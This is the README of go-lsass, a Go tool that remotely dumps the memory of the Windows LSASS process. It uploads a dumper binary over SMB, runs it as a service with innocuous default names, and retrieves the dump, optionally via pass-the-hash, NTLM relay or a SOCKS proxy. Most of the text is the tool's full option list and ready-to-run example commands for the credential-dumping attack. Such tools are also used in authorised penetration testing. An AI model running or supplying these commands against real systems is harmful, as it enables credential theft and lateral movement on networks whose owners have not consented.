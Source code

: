 # go-lsass

## Description
Package go-lsass is a tool built to dump the memory of the LSASS process
remotely by uploading a local LSASS dumper, executing it as a service and then
retrieve the dump file using SMB. It is built on top of the library
[go-smb](https://github.com/jfjallid/go-smb) and is designed to primarily work with the
[LSASS dumper](https://github.com/jfjallid/processdumper).

**NOTE** that the LSASS dumper utility is not included in this repo but has to be
downloaded, compiled and then included by the --dumper flag or placed in the
current directory with a name of pdumpsvc.exe.
Also note that the dumpfile when created by the tool processdumper will be
inverted, e.g., every byte will be XOR:ed with 0xFF.

## Usage
```
Usage: ./go-lsass [options]

options:
      --host                Hostname or ip address of remote server. Must be hostname when using Kerberos
  -P, --port                SMB Port (default 445)
  -d, --domain              Domain name to use for login
  -u, --user                Username
  -p, --pass                Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash                Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -k, --kerberos            Use Kerberos authentication. (KRB5CCNAME will be checked on Linux)
      --dc-ip               Optionally specify ip of KDC when using Kerberos authentication
      --target-ip           Optionally specify ip of target when using Kerberos authentication
      --aes-key             Use a hex encoded AES128/256 key for Kerberos authentication
  -t, --timeout             Dial timeout in seconds (default 5)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
      --cleanup             Perform a cleanup of service binary, service, and dumpfile
      --dumper <path>       Path to local lsass dump utility (default pdumpsvc.exe)
      --service <name>      Name of service that will be created to run the lsass dumper (default MiscSVC)
      --service-filename    Name of service binary (default misc.exe)
      --service-dir         Remote path on C: to store service binary (default C:\windows\)
      --dumpfile            Name of lsass dump file written to disk (default misc.log)
      --dumpdir             Remote path on C: to temporarily store the lsass dump (default C:\windows\)
      --output              Path to where to store the lsass dump locally (default lsass.dmp)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -v, --version             Show version
```

## Using a custom lsass dumper
The default dumper tested with this tool is
https://github.com/jfjallid/processdumper. It should be downloaded and compiled
with `make service` to create a PE32 file that can be executed as a Windows
service.

Support for other LSASS dumper binaries is limited to binaries that can be
executed as a Windows service and which accepts two cmdline arguments:
"lsass.exe" and location of where to store the dumpfile which is a combination
of the two arguments --dumpdir and --dumpfile. With default settings, the two
arguments to the service binary are: "lsass.exe" and "C:\windows\misc.log"

## Examples

### Dump LSASS on a domain joined machine using a local account

```
./go-lsass --host server001 --local --user Administrator --pass adminPass123 --dumper pdumpsvc.exe
```

### Dump LSASS on a domain joined machine using a domain user with a custom directory for the service binary and dump file 

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --service-dir C:\\windows\\temp\\ --dumpdir C:\\windows\\temp\\
```

### Cleanup remote files and service manually when automatic cleanup failed
Note that if any of the following custom flags were used during deployment,
they are also required during cleanup:

- --service
- --service-filename
- --service-dir
- --dumpfile
- --dumpdir

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --cleanup
```
